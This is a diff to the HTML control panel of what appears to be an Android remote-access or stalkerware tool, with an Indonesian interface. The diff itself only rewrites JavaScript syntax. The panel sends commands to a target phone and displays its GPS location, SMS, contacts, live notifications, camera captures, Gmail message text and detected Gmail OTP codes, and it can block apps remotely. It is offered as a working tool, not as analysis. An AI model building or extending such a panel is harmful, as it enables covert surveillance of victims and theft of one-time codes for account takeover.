

Auto-push Web

diff --git a/templates/panel.html b/templates/panel.html
@@ -38,7 +38,6 @@
         .action-btn-red { background-color: #ff3b30; color: #fff; }
         .status { margin-bottom: 20px; padding: 15px; border: 1px dashed #00ff00; text-align: center; color: #00ff00; background: #001100; border-radius: 10px;}
         .grid-btn { display: grid; grid-template-columns: 1fr 1fr; gap: 10px; }
-        
         .modal-overlay { display: none; position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: rgba(0, 0, 0, 0.8); z-index: 1000; justify-content: center; align-items: center; }
         .modal-content { background: #121212; border: 2px solid #00ff00; border-radius: 16px; width: 90%; max-width: 400px; padding: 20px; }
         .modal-header { display: flex; justify-content: space-between; border-bottom: 1px solid #333; padding-bottom: 10px; margin-bottom: 15px; }
@@ -159,39 +158,39 @@
                 document.getElementById('modal-title').innerText = type === 'gps' ? '📍 Lokasi GPS' : (type === 'sms' ? '📩 10 SMS Terakhir' : '👥 Daftar Kontak');
                 kirimPerintah(type === 'gps' ? 'get_gps' : (type === 'sms' ? 'get_sms' : 'get_contacts'));
                 if(intervalId) clearInterval(intervalId);
-                intervalId = setInterval(() => { cekTeks(type); }, 2000);
+                intervalId = setInterval(function() { cekTeks(type); }, 2000);
             } else if (type === 'notifs') {
                 document.getElementById('modal-title').innerText = '🔔 Live Notifikasi';
                 cekNotif();
                 if(intervalId) clearInterval(intervalId);
-                intervalId = setInterval(() => { cekNotif(); }, 3000);
+                intervalId = setInterval(function() { cekNotif(); }, 3000);
             } else if (type === 'gmail_text') {
                 document.getElementById('modal-title').innerText = '📧 Teks Email';
                 cekGmailText();
                 if(intervalId) clearInterval(intervalId);
-                intervalId = setInterval(() => { cekGmailText(); }, 3000);
+                intervalId = setInterval(function() { cekGmailText(); }, 3000);
             } else if (type === 'gmail_otp') {
                 document.getElementById('modal-title').innerText = '🔑 Kode OTP Gmail';
                 cekGmailOtp();
                 if(intervalId) clearInterval(intervalId);
-                intervalId = setInterval(() => { cekGmailOtp(); }, 3000);
+                intervalId = setInterval(function() { cekGmailOtp(); }, 3000);
             } else if (type === 'app_blocker') {
                 document.getElementById('modal-title').innerText = '🚫 App Blocker';
-                document.getElementById('modal-body').innerHTML = `
-                    <p style="font-size:12px; color:#aaa; margin-bottom:10px;">Ketik Package Name (pisahkan dengan koma).</p>
-                    <input type="text" id="blocked_input" placeholder="com.zhiliaoapp.musically" style="width:100%; padding:12px; margin-bottom:15px; background:#222; border:1px solid #00ff00; color:white; box-sizing:border-box;">
-                    <p style="font-size:12px; color:#aaa; margin-bottom:5px;">Durasi Blokir:</p>
-                    <select id="block_timer" style="width:100%; padding:12px; margin-bottom:15px; background:#222; border:1px solid #00ff00; color:white; box-sizing:border-box;">
-                        <option value="0">Permanen</option><option value="1">1 Menit</option><option value="5">5 Menit</option><option value="60">1 Jam</option>
-                    </select>
-                    <button class="action-btn" onclick="simpanBlokir()">SIMPAN & BLOKIR</button>
-                    <button class="action-btn action-btn-red" style="margin-top:15px;" onclick="lepasBlokir()">🔓 LEPAS SEMUA BLOKIR</button>
-                `;
+                var htmlBlocker = 
+                    '<p style="font-size:12px; color:#aaa; margin-bottom:10px;">Ketik Package Name (pisahkan dengan koma).</p>' +
+                    '<input type="text" id="blocked_input" placeholder="com.zhiliaoapp.musically" style="width:100%; padding:12px; margin-bottom:15px; background:#222; border:1px solid #00ff00; color:white; box-sizing:border-box;">' +
+                    '<p style="font-size:12px; color:#aaa; margin-bottom:5px;">Durasi Blokir:</p>' +
+                    '<select id="block_timer" style="width:100%; padding:12px; margin-bottom:15px; background:#222; border:1px solid #00ff00; color:white; box-sizing:border-box;">' +
+                        '<option value="0">Permanen</option><option value="1">1 Menit</option><option value="5">5 Menit</option><option value="60">1 Jam</option>' +
+                    '</select>' +
+                    '<button class="action-btn" onclick="simpanBlokir()">SIMPAN & BLOKIR</button>' +
+                    '<button class="action-btn action-btn-red" style="margin-top:15px;" onclick="lepasBlokir()">🔓 LEPAS SEMUA BLOKIR</button>';
+                document.getElementById('modal-body').innerHTML = htmlBlocker;
             } else {
                 document.getElementById('modal-title').innerText = '📸 Mengambil Gambar...';
                 kirimPerintah(type);
                 if(intervalId) clearInterval(intervalId);
-                intervalId = setInterval(() => {
+                intervalId = setInterval(function() {
                     var img = new Image();
                     img.onload = function() { clearInterval(intervalId); document.getElementById('modal-title').innerText = '📸 Hasil Gambar'; document.getElementById('modal-body').innerHTML = '<img src="' + img.src + '" class="img-preview">'; };
                     img.src = '/static/uploads/latest.jpg?t=' + new Date().getTime();
@@ -200,24 +199,24 @@
         }
 
         function cekTeks(type) {
-            fetch('/api/get_results/' + deviceId).then(res => res.json()).then(data => {
+            fetch('/api/get_results/' + deviceId).then(function(res) { return res.json(); }).then(function(data) {
                 var html = '';
                 if(type === 'gps' && data.gps && data.gps !== "Belum ada data") {
                     clearInterval(intervalId); html = '<div style="font-size: 20px; text-align: center; margin-bottom: 15px;">' + data.gps + '</div><button class="action-btn" onclick="navigator.clipboard.writeText(\'' + data.gps + '\'); alert(\'Disalin!\')">📋 Salin Koordinat</button>';
                 } else if(type === 'sms' && data.sms && data.sms.length > 0) {
-                    clearInterval(intervalId); data.sms.forEach(sms => { html += '<div class="sms-item">' + sms.address + ': ' + sms.body + '</div>'; });
+                    clearInterval(intervalId); data.sms.forEach(function(sms) { html += '<div class="sms-item">' + sms.address + ': ' + sms.body + '</div>'; });
                 } else if(type === 'contacts' && data.contacts && data.contacts.length > 0) {
-                    clearInterval(intervalId); data.contacts.forEach(c => { html += '<div class="sms-item">' + c.name + ' - ' + c.phone + '</div>'; });
+                    clearInterval(intervalId); data.contacts.forEach(function(c) { html += '<div class="sms-item">' + c.name + ' - ' + c.phone + '</div>'; });
                 }
                 if (html !== '') document.getElementById('modal-body').innerHTML = html;
             });
         }
 
         function cekNotif() {
-            fetch('/api/get_results/' + deviceId).then(res => res.json()).then(data => {
+            fetch('/api/get_results/' + deviceId).then(function(res) { return res.json(); }).then(function(data) {
                 var html = '';
                 if (data.notifs && data.notifs.length > 0) {
-                    data.notifs.forEach(n => {
+                    data.notifs.forEach(function(n) {
                         html += '<div class="notif-item"><div style="color:#888; font-size:12px; margin-bottom:4px;">[' + n.time + '] ' + n.app + '</div><div style="font-weight:bold; color:#fff;">' + n.title + '</div><div style="color:#ccc;">' + n.text + '</div></div>';
                     });
                 } else { html = '<div style="text-align:center; color:#888;">Belum ada notifikasi masuk.</div>'; }
@@ -226,11 +225,11 @@
         }
 
         function cekGmailText() {
-            fetch('/api/get_results/' + deviceId).then(res => res.json()).then(data => {
+            fetch('/api/get_results/' + deviceId).then(function(res) { return res.json(); }).then(function(data) {
                 var html = '';
                 if (data.gmail && data.gmail.length > 0) {
-                    data.gmail.forEach((item, index) => {
-                        html += <div style="margin-bottom:20px;"><div style="color:#ff6600; font-size:12px; margin-bottom:5px;">Email ${index + 1}:</div><div class="email-item">${item.text}</div></div>;
+                    data.gmail.forEach(function(item, index) {
+                        html += '<div style="margin-bottom:20px;"><div style="color:#ff6600; font-size:12px; margin-bottom:5px;">Email ' + (index + 1) + ':</div><div class="email-item">' + item.text + '</div></div>';
                     });
                 } else { html = '<div style="text-align:center; color:#888;">Belum ada email yang dibuka.</div>'; }
                 document.getElementById('modal-body').innerHTML = html;
@@ -238,11 +237,11 @@
         }
 
         function cekGmailOtp() {
-            fetch('/api/get_results/' + deviceId).then(res => res.json()).then(data => {
+            fetch('/api/get_results/' + deviceId).then(function(res) { return res.json(); }).then(function(data) {
                 var html = ''; var adaOtp = false;
                 if (data.gmail && data.gmail.length > 0) {
-                    data.gmail.forEach((item) => {
-                        if (item.otp) { adaOtp = true; html += <div class="otp-box"><div style="color:#aaa; font-size:12px;">OTP TERDETEKSI:</div><div class="otp-code">${item.otp}</div></div>; }
+                    data.gmail.forEach(function(item) {
+                        if (item.otp) { adaOtp = true; html += '<div class="otp-box"><div style="color:#aaa; font-size:12px;">OTP TERDETEKSI:</div><div class="otp-code">' + item.otp + '</div></div>'; }
                     });
                 }
                 if (!adaOtp) html = '<div style="text-align:center; color:#888;">Tidak ada OTP terdeteksi.</div>';
